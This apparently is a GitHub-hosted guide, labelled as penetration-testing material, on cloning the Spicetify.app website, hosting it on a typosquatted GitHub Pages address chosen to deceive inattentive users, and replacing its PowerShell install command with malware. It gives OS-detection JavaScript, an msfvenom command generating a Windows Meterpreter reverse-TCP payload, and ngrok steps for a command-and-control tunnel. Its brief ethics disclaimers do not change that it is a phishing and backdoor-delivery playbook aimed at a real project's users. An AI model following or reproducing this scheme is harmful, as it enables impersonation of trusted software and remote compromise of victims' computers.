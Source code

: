 **This is a guide on how to use the open-source code from the https://Spicetify.app website for security purposes, specifically for penetration testing and vulnerability analysis.** It is important to emphasize that any use of this knowledge should be conducted ethically and legally, with proper authorization.

### Instructions for Modifying and Hosting the Website

The source code of the Spicetify.app website can be used by information security specialists to create test environments or simulations. One common technique is to modify the installation command on the site to include malware in a controlled environment.

The installation command is a PowerShell script that can be altered in the source code to include malware. This command can be adjusted as needed for your analysis.

### Hosting on GitHub Pages

You can host the modified site using GitHub Pages. To do this, create a GitHub account with a username similar to the original site name, such as "spicetify". After creating the account, you can host the site using GitHub Pages with a URL like [https://spictify.github.io](https://spictify.github.io). Note that the URL is missing the letter "e" from Spicetify, which might mislead less attentive users.

The original site URL is [https://spicetify.app](https://spicetify.app), and users who are not familiar with the project might be easily deceived if they do not pay attention to the URL.

### Modifying the Source Code

You can modify the website's source code to include JavaScript that identifies the user's operating system and executes specific commands based on that information.

Here is a basic example of JavaScript code to identify the user's operating system:

```javascript
function getOS() {
    var userAgent = window.navigator.userAgent;
    if (userAgent.indexOf("Win") != -1) return "Windows";
    if (userAgent.indexOf("Mac") != -1) return "Mac";
    if (userAgent.indexOf("X11") != -1) return "UNIX";
    if (userAgent.indexOf("Linux") != -1) return "Linux";
    return "Unknown";
}

console.log("Operating System: " + getOS());
```

### Using ngrok and msfvenom for Backdoor

To create and install a backdoor on the user's machine, you can use tools like `ngrok` and `msfvenom`.

- **ngrok** allows you to expose local servers to the internet, facilitating the creation of a command and control (C2) server for your malware.
  
- **msfvenom** is a Metasploit Framework tool used to generate malicious payloads.

Here is a basic example of how to generate a payload with `msfvenom` and use `ngrok`:

1. **Generate the Payload with msfvenom:**

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your-ngrok-tcp-address> LPORT=<your-port> -f psh-cmd
   ```

   Replace `<your-ngrok-tcp-address>` and `<your-port>` with the appropriate values.

2. **Deploy the Payload:**

   Save the generated payload into a `.ps1` file and include it in the modified website code.

3. **Set Up ngrok:**

   Run ngrok to create a tunnel for the payload:

   ```bash
   ngrok tcp <your-port>
   ```

   This will generate a public address that you can use in the payload.

### Final Considerations

Remember, all these techniques should only be used for testing and security analysis in controlled environments. Using these techniques maliciously is illegal and unethical. Always ensure that you have the proper permissions before conducting any penetration tests.

**Credits: [GitHub - lalaio1](https://github.com/lalaio1)**
